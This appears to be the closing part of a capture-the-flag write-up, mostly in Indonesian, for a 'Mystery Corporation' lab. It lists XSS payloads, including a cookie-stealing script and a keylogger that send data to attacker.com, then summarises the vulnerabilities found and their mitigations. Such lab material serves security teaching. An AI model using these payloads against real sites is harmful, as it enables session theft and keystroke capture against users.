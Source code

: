 ### XSS Payloads
```javascript
// Basic alert
<script>alert('XSS')</script>

// Cookie stealing
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

// Keylogger
<script>document.onkeypress=function(e){fetch('http://attacker.com/log.php?key='+String.fromCharCode(e.which))}</script>
```

## 🚨 Security Lessons

### Vulnerabilities Found:
1. **SQL Injection** - Input tidak di-sanitize
2. **XSS** - Output tidak di-escape
3. **Information Disclosure** - Backup files exposed
4. **Weak Authentication** - Default credentials
5. **Insufficient Access Control** - Admin functions accessible

### Mitigation Strategies:
1. **Prepared Statements** untuk SQL queries
2. **Input Validation** dan output encoding
3. **Proper File Permissions** dan access controls
4. **Strong Password Policies**
5. **Regular Security Audits**

---

**Congratulations! 🎉**

Anda telah berhasil menyelesaikan Mystery Corporation CTF dan mempelajari berbagai teknik penetration testing yang penting untuk cybersecurity!

*Remember: Use these skills responsibly and only on systems you own or have explicit permission to test.*